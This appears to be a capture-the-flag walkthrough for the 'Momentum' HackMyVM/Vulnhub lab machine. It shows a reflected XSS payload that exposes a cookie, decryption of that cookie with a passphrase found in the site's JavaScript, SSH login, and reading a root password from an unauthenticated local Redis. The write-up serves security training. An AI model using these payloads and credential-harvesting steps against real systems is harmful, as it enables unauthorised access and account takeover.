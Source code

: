 ```yaml
---
layout: post
title:  "Momentum -  HackMyVM / Vulnhub"
---
```




## Port Scan

```console
22/tcp open  ssh
80/tcp open  http
```

## XSS

```javascript
http://10.0.2.239/opus-details.php?id=<script>alert(document.cookie)</script>
```

Result : `cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt`

## Read main.js

```javascript
view-source:http://10.0.2.239/js/main.js
```

```javascript
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

## Decrypt

First install packages

```
npm install crypto-js
```

```javascript
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt("U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt", "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

#### Result

```
┌──(alienum㉿kali)-[~/Desktop]
└─$ node decrypt.js
auxerre-<REMOVED>##
```

## SSH | Guess username

username : `auxerre`
password : `auxerre-<REMOVED>##`

## Redis

```sh
auxerre@Momentum:~$ ss -an | grep 6379
tcp    LISTEN  0    128     127.0.0.1:6379    0.0.0.0:*               
```

#### Finding root password

```sh
auxerre@Momentum:~$ redis-cli
127.0.0.1:6379> KEYS *
1) "rootpass"
127.0.0.1:6379> GET rootpass
"m0mentum-<REMOVED>##"
127.0.0.1:6379>exit
auxerre@Momentum:~$ su root
Password:
root@Momentum:/home/auxerre# cd
root@Momentum:~#
```
